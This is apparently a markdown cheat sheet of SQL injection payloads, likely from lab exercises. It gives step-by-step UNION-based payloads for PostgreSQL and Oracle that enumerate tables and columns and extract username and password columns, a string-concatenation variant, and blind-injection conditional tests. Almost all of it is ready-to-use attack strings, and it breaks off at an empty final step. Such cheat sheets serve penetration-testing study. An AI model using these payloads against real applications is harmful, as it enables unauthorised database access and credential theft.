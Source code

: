 - PostgreSQL
1. List tables
```
'UNION+SELECT+table_name,'SQLITESTTWO'+FROM+information_schema.tables--+-
```
2. List columns
```
'UNION+SELECT+column_name,'SQLITESTTWO'+FROM+information_schema.columns+WHERE+table_name='users_touygs'--+-
```
3. Extract content from both columns
```
'UNION+SELECT+password_adevhf,username_clvnch+FROM+users_touygs--+-
```
# List DB contents on Oracle
- Oracle
1. List tables
```
'UNION+SELECT+table_name,null+FROM+all_tables--+-
```
2. List columns
```
'UNION+SELECT+column_name,null+FROM+all_tab_columns+where+table_name+=+'USERS_OKFWZM'--+-
```
3. Extract contents from both columns
```
'UNION+SELECT+USERNAME_UBAAFP,PASSWORD_JYKMOZ+FROM+USERS_OKFWZM--+-
```
# String concatenation
- PostgreSQL
1. List tables
```
'UNION+SELECT+NULL,table_name+FROM+information_schema.tables--+-
```
2. List columns from identified table
```
'UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users'--+-
```
3. Use string concatenation to retrieve username and password together
```
'UNION+SELECT+NULL,username+||+'---'+||+password+FROM+users--+-
```
# Blind SQLi conditional responses
- PostgreSQL
1. Identify differences in response size submitting TRUE/FALSE conditions
```
'AND+1=1--+-
'AND+1=0--+-
```
2. Use comparer to find differences in HTTP responses
3. Determine number of columns
```
'ORDER BY 1--#
```
4. Enumerate table names
```
'AND (SELECT 'z' FROM {table_name} LIMIT 1)='z
```
5. Enumerate column names
```
'UNION SELECT {column_name} FROM {table_name} WHERE 1=1--#
```
6. This payload enumerate valid usernames from a `username` column
```
```